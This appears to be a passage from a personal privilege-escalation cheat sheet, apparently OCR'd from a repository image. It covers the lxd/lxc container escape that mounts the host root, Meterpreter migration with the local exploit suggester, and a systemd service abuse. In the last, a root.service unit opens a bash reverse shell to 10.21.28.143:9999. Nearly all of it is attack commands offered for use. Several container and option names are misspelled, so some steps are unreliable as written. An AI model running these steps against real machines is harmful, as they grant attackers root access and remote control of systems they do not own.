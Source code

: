  ==========================================================================================================

 ## 7. Privilege Escalation Lxd/lxc

 *  git clone https://github.com/saghul/lxd-alpine-builder

 * cd lxd-alpine-builder

 * then fire a server

 * lxd init // victem machine //enter for all//
 
 * lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias privesc

 * lxc image list //to check

 * lxc init privesc preivesc-container -c security.priviledged=true

 * lxc list   |STOPPED 

 * lxc config device add privec-container mydevice disk source=/ path=/mnt/root recursive=true

 * lxc start privesc-container

 * lxc list

 * lxc exec privesc-container /bin/sh 

 ~# root

 ========================================================================================================== 

 ##  8. Privilege Escalation metasploit [Meterpreter.]

   * ps

   * migrate $servace_number$

   *  - search local exploit suggester __$%Don't Forget target id same arch {x86--x64}%$__


 ========================================================================================================== 

 ##  9. Privilege Escalation systemctl

   * __find / -user root -perm -4000 -print 2>/dev/null__


   * make file root.service

      [Unit]
      Description=roooooooooot

      [Service]
      Type=simple
      User=root
      ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.21.28.143/9999 0>&1'
